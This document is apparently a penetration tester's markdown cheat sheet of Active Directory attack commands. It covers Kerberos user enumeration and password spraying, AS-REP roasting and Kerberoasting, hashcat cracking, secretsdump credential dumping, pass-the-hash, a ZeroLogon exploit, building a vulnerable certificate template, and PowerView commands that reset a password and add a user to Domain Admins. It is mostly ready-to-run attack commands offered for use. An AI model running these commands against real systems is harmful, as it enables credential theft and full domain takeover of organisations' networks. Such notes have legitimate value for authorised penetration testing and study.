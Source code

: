 KERBRUTE:
---
#kerbrute #ad #enum #passwordspray #userenum #kerberos 

Install/Build latest kerbrute:

```bash
go install github.com/ropnop/kerbrute@latest
#or the good old-fashioned
git clone https://github.com/ropnop/kerbrute
cd kerbrute
go build
```

Sync time to DC, otherwise password spray / enum / brute force may fail!

```shell
sudo ntpdate -s $TARGET_IP
```

then

```bash
kerbrute userenum --dc $TARGET_IP -d $TARGET_AD users -t 100 -v
kerbrute passwordspray --dc $TARGET_IP -d $TARGET_AD -t 100 -v users $PASSWORD 
kerbrute bruteuser --dc $TARGET_IP -d $TARGET_AD -t 100 -v passwords $USER
kerbrute passwordspray --dc $TARGET_IP -d $TARGET_AD users -t 100 -v --user-as-pass
```

Dev version of kerbrute auto-checks for AS-REP roastable accounts
```bash
kerbrute userenum --dc $TARGET_IP --domain $TARGET_AD --hash-file hashes --downgrade users
```

LDAP
----
```bash
nmap -n -sV --script "ldap* and not brute" $TARGET_IP
```

```bash
ldapsearch -H ldap://$TARGET_IP -x -s base namingcontexts
```

```bash
ldapsearch -x -H ldap://$TARGET_IP -b 'DC=$TARGET_AD,DC=$DOMEXT' | grep -B2 Person | grep "@" | awk '{print $2}'
```

```bash
ldapsearch -H ldap://$TARGET_IP -x -b "DC=$TARGET_AD,DC=local" '(objectClass=person)'
```

AS-REP Roasting
---
#as-rep-roasting #kerberos #asrep-roasting

No password ticket query against a user list, not requiring Kerberos pre-authentication,
AKA. 
AS-REP Roasting or ASREP Roasting

```shell
impacket-GetNPUsers -no-pass -usersfile users -dc-ip $TARGET_IP $TARGET_DOMAIN/ -format hashcat
```

Against single user:

```shell
impacket-GetNPUsers $TARGET_DOMAIN/$TARGET_USER -no-pass
impacket-GetNPUsers -dc-ip $TARGET_IP -request -outputfile hashes.asreproast $AD_DOMAIN/$USER
```

Or if you got a shell on machine:
#rubeus 

```powershell
Rubeus.exe asreproast /format:hashcat /outfile:C:hashes.txt
```

And then brute force:
#ntlm #bruteforce 

```shell
hashcat -m 18200 hashes $ROCKYOU
#Print pass
hashcat -m 18200 hashes $ROCKYOU --show | awk -F':' '{print $3}'
```

NTLM dump from mimikatz brute for OSCP :
#ntlm #mimikatz #bruteforce 
```bash
hashcat -m 1000 hashes /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
Crack AS-REP roast hash:
#hashcat #asrep-roasting #bruteforce 

```bash
sudo hashcat -m 18200 hashes /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

Dump hashes using account credentials:
#dump #creds

```shell
impacket-secretsdump -dc-ip $TARGET_IP $USER:$PASSWORD@$TARGET_DOMAIN
#OR try
impacket-secretsdump $USER:$PASSWORD@$TARGET_IP
```

Connect to Windows Machine using obtained hash (pass the hash):
#winrm #evil-win-rm #evilwinrm #pth #pass-the-hash

```shell
#remove aad3b435b51404eeaad3b435b51404ee: from hash
evil-winrm -i $TARGET_IP -u $USER -H $TARGET_HASH
```
Change user password using powershell / powerview:
---
#change-password
```powershell
. ./PowerView.ps1
Set-DomainUserPassword -Identity $USERNAME -AccountPassword (ConvertTo-SecureString -AsPlainText 'Password123!' -Force) -Domain $TARGET_AD
Add-NetGroupUser -UserName $USER -GroupName "Domain Admins" -Domain $TARGET_AD
```

Pre-compiled Windows binaries (Rubeus, Certify …):
---
#ghostpack #rubeus #certify #precompiled

[https://github.com/GhostPack](https://github.com/GhostPack)

---
Kerberoasting:
---
#kerberos #kerberoasting #ad #active-directory #windows #spn

The attacker impersonates an account user with a service principal name (SPN) and requests a service-related ticket.

Check if vulnerable accounts are present:

```shell
impacket-GetUserSPNs -dc-ip $TARGET_IP $TARGET_AD/$USER
```

Send request to TGS and extract the hash:

```shell
impacket-GetUserSPNs -dc-ip $TARGET_IP $TARGET_AD/$USER -request
```

#kerberoasting #rubeus

```powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

```bash
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

ZeroLogon (CVE-2020-1472)
---
```bash
git clone https://github.com/dirkjanm/CVE-2020-1472
python3.11 cve-2020-1472-exploit.py $NB_NAME $TARGET_IP
impacket-secretsdump -no-pass -just-dc $NB_NAME\$@$TARGET_IP\
evil-winrm -u administrator -i $TARGET_IP -H $HASH
```
Overpass the hash attack:
---
when NTLM protocol is disabled
#overpass-the-hash

```shell
impacket-getTGT $TARGET_DOMAIN/$USER -hashes :$HASH
export KRB5CCNAME=$(pwd)/$USER.ccache
impacket-psexec $TARGET_DOMAIN/$USER@$MACHINE_NAME.$TARGET_DOMAIN -k -no-pass
```

PKI Admin access
---
#pki #pki-admin #ad-template #vulnerable-template

PKI Admin can be abuse to create a vulnerable cert template which can then be exploited with Certipy (or certify and rubeus):

Download template creator module:

```
wget https://raw.githubusercontent.com/GoateePFE/ADCSTemplate/master/ADCSTemplate.psm1
# upload psm1 file to target
```

Use the module to create a vulnerable template:

```powershell
Import-Module .\ADCSTemplate
Export-ADCSTemplate -DisplayName Administrator > .\admin.json
download admin.json
```

then edit the following JSON properties:
```JSON
"msPKI-Certificate-Name-Flag":  1,
"msPKI-Enrollment-Flag":  0,
```
and make sure to have:
```json
"pKIExtendedKeyUsage":"1.3.6.1.5.5.7.3.2"
```
then
```powershell
New-ADCSTemplate -DisplayName Administrator2 -JSON (Get-Content .\admin.json -Raw) -Publish -Identity "$AD_DOMAIN(1st part no ".")\$USERNAME"
Set-ADCSTemplateACL -DisplayName Administrator2 -Type Allow -Identity '$AD_DOMAIN(1st part no ".")\$USERNAME' -Enroll

```
Scan with certipy 4.4+ for vulnerable templates
notes are in "Certificate Abuse" #Certificate-Abuse

List Active Directory AD Users:
---
#enumerate #ad #users #smb-enumeration

```shell
crackmapexec smb $TARGET_IP -u $USER -p $PASSWORD --users
crackmapexec smb $TARGET_IP -u $USER -p $PASSWORD --users | grep "$TARGET_AD" | sed 1d | awk '{print $5}' | sed 's/[^ ]*\\//' | tail -n +2
```

Password spraying with CME

```shell
crackmapexec smb $TARGET_AD -u users -p $PASS --continue-on-success
```

Start collecting data for BloodHound:
---
#sharphound #bloodhound #ad

```powershell
powershell -ep bypass
. .\SharpHound.ps1
Import-Module .\Sharphound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\$USER\Desktop\ -OutputPrefix "audit"
```

```powershell
Import-Module .\PowerView.ps1
Get-NetDomain
Get-NetComputer
Get-NetComputer | select operatingsystem,dnshostname
Get-NetUser
Get-NetUser | select cn
Get-NetGroup
Get-NetGroup "$GROUP_NAME" | select member
Get-NetUser -SPN | select samaccountname,serviceprincipalname
Get-ObjectAcl -Identity $USERNAME
Convert-SidToName $SID
Find-DomainShare #-CheckShareAccess
```

resolve local machine address
`nslookup.exe $ADDRESS`